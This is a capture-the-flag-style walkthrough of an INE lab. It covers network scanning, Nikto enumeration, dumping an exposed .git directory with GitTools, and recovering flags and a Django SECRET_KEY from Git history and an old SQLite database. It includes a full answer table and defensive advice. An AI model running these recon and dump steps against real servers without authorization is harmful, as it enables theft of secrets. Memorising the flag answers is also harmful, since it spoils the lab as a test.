




# INE Skill Dive --- Automated Git Repo Recovery

> **Platform:** INE Skill Dive\
> **Category:** Network Pentesting: Git\
> **Status:** ✅ Completed --- 5/5 Flags\
> **Target:** `attackdefense.com` --- lab IP varies by instance

------------------------------------------------------------------------

## 🎯 Lab Objective

The objective of this lab is to discover a target on the internal lab
network, identify an exposed web application and Git repository, recover
the Git repository and its historical objects, and retrieve information
that was removed from the current version of the project.

The lab covers:

-   Network reconnaissance
-   TCP port and service enumeration
-   Web server enumeration with Nikto
-   Identifying an exposed `.git` repository
-   Git repository recovery with GitTools
-   Git commit and branch analysis
-   Recovering deleted files from Git history
-   Recovering data from historical SQLite databases
-   Searching historical application configuration
-   Identifying the requested Django `SECRET_KEY`

The exact IP address can change when the INE lab is restarted. The
commands below follow the completed lab session shown in the
screenshots.

------------------------------------------------------------------------

# 1. Network Discovery

## 1.1 Check the local IP address

``` bash
ip a
```

**What it does:**\
Displays the network interfaces, IP addresses, MAC addresses, and
current interface state of the Kali/AttackDefense machine.

In the completed session, the relevant interface was:

``` text
eth1
inet 192.33.54.2/24
```

This tells us that the attacker machine is connected to the:

``` text
192.33.54.0/24
```

network.


------------------------------------------------------------------------

## 1.2 Scan the local network

Run:

``` bash
nmap -sS -sV 192.33.54.2/24
```

**What it does:**

-   `-sS` → performs a TCP SYN scan.
-   `-sV` → attempts to identify the service and version running on open
    ports.
-   `/24` → scans the complete `192.33.54.0/24` network.

The scan identified three live hosts.

The important target for this lab was:

``` text
192.33.54.3
```

It exposed:

``` text
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
```

The lab gateway/other host also exposed SSH, while the AttackDefense
host exposed AJP, VNC, and XRDP services. The HTTP server at
`192.33.54.3` was the important host for the Git-recovery portion.


------------------------------------------------------------------------

# 2. Web Server Enumeration

## 2.1 Run Nikto against the HTTP server

``` bash
nikto -host 192.33.54.3
```

**What it does:**\
Nikto performs automated web-server enumeration and checks for common
files, configuration issues, outdated software, and potentially
interesting paths.

The server was identified as:

``` text
Apache/2.4.29 (Ubuntu)
```

The most important findings were:

``` text
/.git/index
/.git/HEAD
/.git/config
```

Nikto therefore confirmed that Git repository metadata was accessible
through the web server.

### Why this matters

A `.git` directory can contain:

-   Repository branches
-   Commit history
-   Git objects
-   Previous versions of files
-   Deleted files
-   Configuration files
-   Accidentally committed secrets

Removing a secret from the current version does not automatically remove
it from previous Git commits.



------------------------------------------------------------------------

# 3. Confirm the Git Exposure

The web server exposes Git metadata such as:

``` text
/.git/HEAD
/.git/config
/.git/index
```

A useful manual check is:

``` bash
curl -i http://192.33.54.3/.git/HEAD
```

You can also check:

``` bash
curl -i http://192.33.54.3/.git/config
```

**What these files are:**

-   `.git/HEAD` → identifies the current Git reference.
-   `.git/config` → contains repository configuration.
-   `.git/index` → contains information about tracked files.

> **Note:** The presence of a `.git` directory does not mean that
> requesting `/.git/` itself will return a directory listing. Individual
> known Git files can still be accessible.

------------------------------------------------------------------------

# 4. Recover the Exposed Git Repository

The lab provides GitTools for recovering exposed Git repositories.

## 4.1 Move to GitTools

``` bash
cd /root/Desktop/tools/GitTools/Dumper
```

Check the available files:

``` bash
ls
```

The important tool is the Git dumper.

## 4.2 Dump the Git repository

Use:

``` bash
./gitdumper.sh http://192.33.54.3/.git/ ~/git_files
```

**What it does:**\
Attempts to download the exposed `.git` repository and its accessible
Git objects into:

``` text
~/git_files
```

After the dump, the directory contains the recovered Git metadata.

------------------------------------------------------------------------

# 5. Extract the Recovered Git Objects

Move to the GitTools Extractor:

``` bash
cd /root/Desktop/tools/GitTools/Extractor
```

Run the extractor:

``` bash
./extractor.sh ~/git_files ~/extracted
```

**What it does:**\
Processes the downloaded Git objects and reconstructs repository
snapshots from the recovered commits.

The extracted historical versions are stored under:

``` text
~/extracted
```

You can inspect the recovered snapshots with:

``` bash
find ~/extracted -maxdepth 2 -type d
```

Each commit snapshot is associated with its Git commit hash.

------------------------------------------------------------------------

# 6. Analyze Git Commit History

Move into the recovered Git repository:

``` bash
cd ~/git_files
```

Run:

``` bash
git log
```

**What it does:**\
Displays the repository's commit history, including commit hashes,
authors, timestamps, and commit messages.

The recovered history contained several suspicious commit messages,
including:

``` text
Flag is removed now :)
```

``` text
Added the last flag :)
```

``` text
Flag is removed now :)... Well atleast from the master it is
```

and:

``` text
Added a flag in the flag branch ;)
```

There was also a commit message containing a flag directly:

``` text
Removed the flag from the sqlite database

But surpise :)

Leaving a flag in the commit message:
23620a16be75cc0kmvl7lq3tz5jt3mfvgbksl
```



------------------------------------------------------------------------

# 7. Objective 1 --- Recover the Flag from an Amended Commit Message

One commit contains:

``` text
Leaving a flag in the commit message:
23620a16be75cc0kmvl7lq3tz5jt3mfvgbksl
```

Therefore, the first answer is:

``` text
23620a16be75cc0kmvl7lq3tz5jt3mfvgbksl
```

### Why it works

Git stores commit metadata as part of the repository history. A commit
message is not removed just because a secret is removed from the current
source tree.

### Useful command

To inspect the specific commit:

``` bash
git show ddf3ffb6e690f6ebe780f33e680131da4215f72b
```

**What it does:**\
Displays the commit metadata, commit message, and associated changes.

------------------------------------------------------------------------

# 8. Objective 2 --- Identify the Flag Branch

The Git history contains this merge message:

``` text
Merge branch 'flag_f8dyxy5euu3wre8qw0vkgj9wm'
```

The branch name is therefore:

``` text
flag_f8dyxy5euu3wre8qw0vkgj9wm
```

You can investigate branches with:

``` bash
git branch -a
```

**What it does:**\
Lists local and remote-tracking branches that are available in the
recovered repository.

You can also inspect references with:

``` bash
git show-ref
```

**What it does:**\
Displays the references stored by Git, including branches and tags.

------------------------------------------------------------------------

# 9. Objective 3 --- Recover the Flag File from the Flag Branch

The commit:

``` text
27fff91d41931164a7d0e26546b4252f970e01d8
```

has the message:

``` text
Added a flag in the flag branch ;)
```

Inspect it:

``` bash
git show 27fff91d41931164a7d0e26546b4252f970e01d8
```

**What it does:**\
Shows the changes introduced by that commit.

The output shows a newly created file:

``` text
django_web_app/users/flag
```

The file contains:

``` text
e62d6d873c930f696b38c14914dc3bddfe1900070d7b5c49
```

Therefore, the third answer is:

``` text
e62d6d873c930f696b38c14914dc3bddfe1900070d7b5c49
```

### Another way to locate the file

Search the extracted repository:

``` bash
find ~/extracted -name "*flag*"
```

This produced historical copies such as:

``` text
/root/extracted/18-27fff91d41931164a7d0e26546b4252f970e01d8/django_web_app/users/flag
/root/extracted/13-fe2862822dd75bb3cc1b9cf67b76a03b3638b016/django_web_app/users/flag
```

### Lesson

A file can disappear from the latest version while remaining recoverable
from an older Git commit.

------------------------------------------------------------------------

# 10. Locate Historical SQLite Databases

The extracted repository contains multiple historical versions of the
Django SQLite database.

Find them:

``` bash
find ~/extracted -name "db.sqlite3"
```

**What it does:**\
Searches all extracted historical snapshots for SQLite database files.

The output contains databases associated with different commits.

For example:

``` text
~/extracted/15-b0a9bf6847a3c5984d4cd4bec5708ada0c8395ce/django_web_app/db.sqlite3
```

The reason for checking historical copies is that a later commit may
have removed the secret from the database, while an earlier database
snapshot still contains it.

------------------------------------------------------------------------

# 11. Objective 4 --- Recover the Secret Flag from SQLite

Open the historical database:

``` bash
sqlite3 ~/extracted/15-b0a9bf6847a3c5984d4cd4bec5708ada0c8395ce/django_web_app/db.sqlite3
```

**What it does:**\
Starts the SQLite command-line interface and opens the selected
historical database.

## 11.1 List tables

Inside SQLite:

``` sql
.tables
```

**What it does:**\
Lists all tables contained in the database.

The interesting table is:

``` text
secr3t_fl4g
```

## 11.2 Query the secret table

Run:

``` sql
select * from secr3t_fl4g;
```

The recovered row is:

``` text
Th!s_!s_t#3_fl4g|3ae563952ca76f220160167730226cd28236
```

The actual flag value is:

``` text
3ae563952ca76f220160167730226cd28236
```



### Exit SQLite

``` sql
.quit
```

**What it does:**\
Closes SQLite and returns to the normal shell.

### Lesson

A database committed to Git is effectively part of the repository's
history. Deleting a row from the current database does not remove the
same row from older committed database snapshots.

------------------------------------------------------------------------

# 12. Objective 5 --- Recover the Django SECRET_KEY

The final objective asks for the alphanumeric `SECRET_KEY` that was
added to the project in the last commit.

Search all extracted repository versions:

``` bash
grep -r SECRET_KEY ~/extracted | cut -d: -f2 | sort | uniq
```

**What it does:**

-   `grep -r SECRET_KEY ~/extracted` → searches recursively for
    `SECRET_KEY` across all extracted commits.
-   `cut -d: -f2` → extracts the portion after the first `:`.
-   `sort` → sorts the results.
-   `uniq` → removes duplicate lines.

The search returned multiple historical values, including:

``` text
SECRET_KEY = '5h5bo5ryzhk64aeumv6wibj7b8d3321f7bbcc'
```

and:

``` text
SECRET_KEY = '86303b59c79e5h5bo5ryzhk64aeumv6wibj7b'
```

It also reported a binary `.pyc` match and a non-alphanumeric/redacted
value.



------------------------------------------------------------------------

# 13. Determine the SECRET_KEY from the Last Commit

Finding multiple historical `SECRET_KEY` values is not enough.

The question specifically asks for the key added in the **last commit**.

The extracted repository preserves commit information for the historical
snapshots. Compare the commit metadata associated with the candidate
keys and identify the one belonging to the latest relevant commit.

The requested key is:

``` text
5h5bo5ryzhk64aeumv6wibj7b8d3321f7bbcc
```

Therefore, the fifth answer is:

``` text
5h5bo5ryzhk64aeumv6wibj7b8d3321f7bbcc
```

### Lesson

When several historical versions of a secret exist, Git commit metadata
can be used to determine which version corresponds to the requested
point in the repository's history.

------------------------------------------------------------------------

# 14. 🚩 Flags Captured

  ----------------------------------------------------------------------------------------------------
  \#                      Lab Question            Answer
  ----------------------- ----------------------- ----------------------------------------------------
  1                       Flag present in an      `23620a16be75cc0kmvl7lq3tz5jt3mfvgbksl`
                          amended commit message  

  2                       Name of the flag branch `flag_f8dyxy5euu3wre8qw0vkgj9wm`

  3                       Contents of the flag    `e62d6d873c930f696b38c14914dc3bddfe1900070d7b5c49`
                          file in the flag branch 

  4                       Secret flag in the      `3ae563952ca76f220160167730226cd28236`
                          SQLite database         

  5                       Alphanumeric Django     `5h5bo5ryzhk64aeumv6wibj7b8d3321f7bbcc`
                          `SECRET_KEY` added in   
                          the last commit         
  ----------------------------------------------------------------------------------------------------

------------------------------------------------------------------------

# 15. 🧠 Key Concepts Learned

## 15.1 Network Reconnaissance

Before attacking a service, identify the hosts and services that are
actually present.

Typical workflow:

``` text
ip a
   ↓
Nmap
   ↓
Identify live hosts
   ↓
Identify open ports/services
```

In this lab, the important discovery was an Apache HTTP service on:

``` text
192.33.54.3:80
```

------------------------------------------------------------------------

## 15.2 Web Enumeration

Nikto helped identify interesting files:

``` text
/.git/index
/.git/HEAD
/.git/config
```

This is a good example of why automated web enumeration can be useful
during a controlled penetration test.

------------------------------------------------------------------------

## 15.3 Exposed Git Metadata

A publicly accessible `.git` directory can expose much more than the
current website.

Potentially recoverable information includes:

``` text
Branches
Commits
Git objects
Deleted files
Old configuration
Database files
Credentials
Application secrets
```

------------------------------------------------------------------------

## 15.4 Git History Can Recover Deleted Data

The lab intentionally removed flags from later commits.

However, the older Git objects still contained the information.

The recovery chain was:

``` text
Exposed .git
      ↓
Git repository dump
      ↓
Git objects
      ↓
Historical commits
      ↓
Deleted file/data
      ↓
Recovered flags
```

------------------------------------------------------------------------

## 15.5 Historical SQLite Databases

The application used SQLite.

An older snapshot contained:

``` text
secr3t_fl4g
```

Even though the current version no longer exposed the same data, the
historical database remained available through Git.

------------------------------------------------------------------------

## 15.6 Configuration Secrets

The application also contained historical Django `SECRET_KEY` values.

A developer should never assume that deleting a secret from the latest
file removes it from Git history.

If a real secret has been committed:

1.  Treat it as exposed.
2.  Rotate the secret.
3.  Remove it from repository history where appropriate.
4.  Check clones, backups, caches, and forks.
5.  Use environment variables or a secrets-management system for future
    deployments.

------------------------------------------------------------------------

# 16. Complete Attack Flow

The complete lab methodology can be remembered as:

``` text
Identify attacker IP
        ↓
Scan the local /24 network
        ↓
Find HTTP server
        ↓
Run Nikto
        ↓
Discover exposed .git/
        ↓
GitDumper
        ↓
GitTools Extractor
        ↓
git log
        ↓
Analyze historical commits
        ↓
Recover commit-message flag
        ↓
Identify flag branch
        ↓
Recover deleted flag file
        ↓
Find historical db.sqlite3
        ↓
Query secr3t_fl4g
        ↓
Search historical SECRET_KEY values
        ↓
Compare commit history
        ↓
Recover final SECRET_KEY
```

------------------------------------------------------------------------

# 17. Quick Command Reference

``` bash
# Network discovery
ip a
nmap -sS -sV 192.33.54.2/24

# Web enumeration
nikto -host 192.33.54.3

# Check exposed Git files
curl -i http://192.33.54.3/.git/HEAD
curl -i http://192.33.54.3/.git/config

# GitTools Dumper
cd /root/Desktop/tools/GitTools/Dumper
./gitdumper.sh http://192.33.54.3/.git/ ~/git_files

# GitTools Extractor
cd /root/Desktop/tools/GitTools/Extractor
./extractor.sh ~/git_files ~/extracted

# Git investigation
cd ~/git_files
git log
git branch -a
git show <commit>
git show-ref

# Find historical flag files
find ~/extracted -name "*flag*"

# Find historical SQLite databases
find ~/extracted -name "db.sqlite3"

# SQLite
sqlite3 ~/extracted/15-b0a9bf6847a3c5984d4cd4bec5708ada0c8395ce/django_web_app/db.sqlite3
.tables
select * from secr3t_fl4g;
.quit

# Search historical Django SECRET_KEY values
grep -r SECRET_KEY ~/extracted | cut -d: -f2 | sort | uniq
```

------------------------------------------------------------------------

# 18. Defensive Takeaways

## Do not expose `.git`

Production web servers should not serve the repository's `.git`
directory.

For example, the following should not be publicly accessible:

``` text
/.git/HEAD
/.git/config
/.git/index
```

## Do not commit secrets

Avoid committing:

``` text
Django SECRET_KEY
Passwords
API keys
Private keys
Database credentials
Production databases
Tokens
```

## Rotate compromised secrets

If a real secret has been committed to Git, deleting it in a newer
commit is not sufficient. The secret should be rotated because older
repository objects may still contain it.

## Review repository history

Security reviews should consider both:

``` text
Current files
```

and:

``` text
Historical Git commits
```

A clean current working tree does not necessarily mean that sensitive
information has never been exposed.

------------------------------------------------------------------------

# 19. 🏁 Lab Completion

**Automated Git Repo Recovery --- ✅ 5/5 Flags Captured**

This lab demonstrated how a seemingly simple web-server exposure can
lead to recovery of information that was removed from the current
application.

The key methodology was:

``` text
Recon
  ↓
Service enumeration
  ↓
Web enumeration
  ↓
Exposed Git metadata
  ↓
Repository recovery
  ↓
Git history analysis
  ↓
Deleted data recovery
  ↓
Secret recovery
```

The most important takeaway:

> **Deleting sensitive information from the latest Git commit does not
> necessarily remove it from Git history.**

------------------------------------------------------------------------

## References

The previously completed **Exploring a Git Repo** walkthrough was used
as the formatting and organization reference for this document. The
current lab's commands, outputs, objectives, and recovered values are
based on the completed session shown in the supplied screenshots.
